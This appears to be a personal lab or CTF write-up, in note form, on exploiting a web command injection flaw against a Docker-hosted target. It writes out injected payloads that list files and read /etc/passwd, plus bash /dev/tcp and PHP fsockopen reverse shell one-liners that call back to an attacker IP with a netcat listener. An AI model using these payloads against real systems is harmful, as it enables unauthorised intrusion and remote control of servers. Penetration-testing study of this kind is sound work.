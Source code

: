 =>
we found a way to command injection:
=>
let's try to see the content:
`; ls -lah; asd`
>[!tips]
>if you have a bad formatted output
>=>
>press CTRL+U in the page to see -->  the source code
>=>
>to see also better -->  the output

=>
for example with the last command:
![[Pasted image 20240308121336.png]]

<span style="background:#fff88f">list user:</span>
`; cat /etc/passwd; asd`
![[Pasted image 20240308121532.png]]

this is already a -->  serious vuln
but:
let's try to popup a shell

##### Popup a shell
let's try with a bash shell:
- find the bash location -->  `; which bash; asd`
  ![[Pasted image 20240308135813.png]]
- connect to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)
	- CTRL+F and search for -->  Reverse Shell Cheatsheet 
	- click on bash TCP
	- copy the first one
- let's try it:
	- on your terminal setup netcat -->  `nc -nlvp 4444`
	- inject the payload :
	  `; bash -i >& /dev/tcp/<attacker-IP>/4242 0>&1; asd `
	  it doesn't work
=>
let's find what services are running in the webserver using -->  `which`
- check PHP -->  `; which php; asd` 
  =>
let's try a PHP shell:
- from  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) > Reverse Shell Cheatsheet -->  search for PHP
- `nc -nlvp 4444`
- `; php -r '$sock=fsockopen("172.17.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'; asd`
	- `172.17.0.1` -->  my IP (interface docker0)
=>
<span style="color:#00b050">WE HAVE A SHELL</span>
![[Pasted image 20240308135212.png]]
